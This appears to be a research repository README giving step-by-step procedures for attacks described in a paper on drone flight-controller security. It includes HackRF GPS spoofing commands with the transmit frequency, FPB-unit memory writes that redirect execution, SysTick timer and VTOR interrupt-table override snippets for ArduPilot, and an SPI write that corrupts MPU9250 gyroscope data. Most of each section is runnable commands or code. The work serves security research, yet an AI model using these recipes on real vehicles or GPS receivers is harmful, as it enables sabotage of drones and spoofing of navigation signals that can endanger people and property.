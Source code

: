 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
### Prerequisite
1) You need to have a software-defined radio like <a href="https://greatscottgadgets.com/hackrf/one/" target="_blank">HackRF One</a> which could simulate GPS L1 signal. 
2) Install HackRF package
```bash
sudo apt-get update -y
sudo apt-get install -y hackrf
```

3) Install <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> GPS position simulator</a>


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use <a href="https://github.com/purseclab/M2MON/tree/main/attacks/GPS_spoofing" target="_blank"> brdc3540.14n</a> as an ephemeris file, you can generate GPS messages by using the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

## FPB (Flash Patch and Breakpoint Unit) attack
### Prerequisite
1) Your main system-on-Chip must be equipped with a FPB unit. We used <a href="https://www.st.com/en/microcontrollers-microprocessors/stm32f427-437.html" target="_blank">STM32F427</a>.

2) RTOS can execute shell commands (e.g., mw and mh).

### How to execute it?
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```
2) Activate the FPB unit and execute a new command
```bash
mw 0xE0002004=0x20000000 1
mh 0x20000014=0xe7fe 1
mw 0xE0002000=0x1 1
mw 0xE000201C=0x0807efb9 1
```

## Timer attack
### Prerequisite
1) You need to know a value of the SysTick register (STK_LOAD). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the timer attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000E014: STK_LOAD’s register address
volatile unsigned int *Timer_attack = (volatile unsigned int *) 0xE000E014;

// Increasing the value to 2X of the original value (0x2903F) set by the RTOS
*Timer_attack = 335998;
```

2) You can confirm the effect of the timer attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/timer_attack/result.png">

## IRQ override attack
### Prerequisite
1) You need to know a value of the vector table offset register (VTOR). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the IRQ attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000ED08: VTOR’s register address
volatile unsigned int *VTOR_attack = (volatile unsigned int *) 0xE000ED08;
::printf("Original VTOR:0x%x\n", *VTOR_attack);

// Overriding VTOR
// 3758153728: 0xE000E000 in hex
*VTOR_attack = 3758153728;
::printf("Modified VTOR:0x%x\n", *VTOR_attack);
```

2) You can confirm the effect of the IRQ attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/IRQ_attack/result.png">

## Gyroscope attack
### Prerequisite
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```

2) We used <a href="https://ardupilot.org/mavproxy/docs/modules/devop.html" target="_blank">Direct Comms with SPI/I2C bus</a> in ArduPilot.
You can learn how to use the Direct Comms with SPI/I2C bus from the documentation. You must know the following information to conduct this attack: 1) device name, 2) bus number, and 3) address.
We got such information from NuttX source code. For example, if you want to read data from SPI bus, you can execute a command in the below.

```bash
devop read spi (1)name (2)bus (3)address (4)regstart count
(1) Where name= device name
(2) bus=spi bus #
(3) address=device address
(4) regstart=register to start at 
(5) count=number of bytes to write
```

### How to conduct the gyroscope attack?
1) Write data on a control register of the MPU9250 gyroscope sensor.

```bash
devop write spi mpu9250 1 4 26 1 11
```

2) You might see bad gyroscope sensor data.
